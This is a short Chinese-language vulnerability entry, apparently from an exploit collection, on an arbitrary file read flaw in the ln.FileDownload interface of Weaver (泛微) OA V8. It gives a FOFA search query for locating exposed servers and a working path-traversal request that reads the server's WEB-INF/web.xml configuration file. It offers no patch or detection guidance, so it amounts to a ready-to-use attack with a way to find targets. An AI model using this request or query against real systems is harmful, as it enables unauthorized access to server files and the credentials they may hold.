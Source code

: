 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)



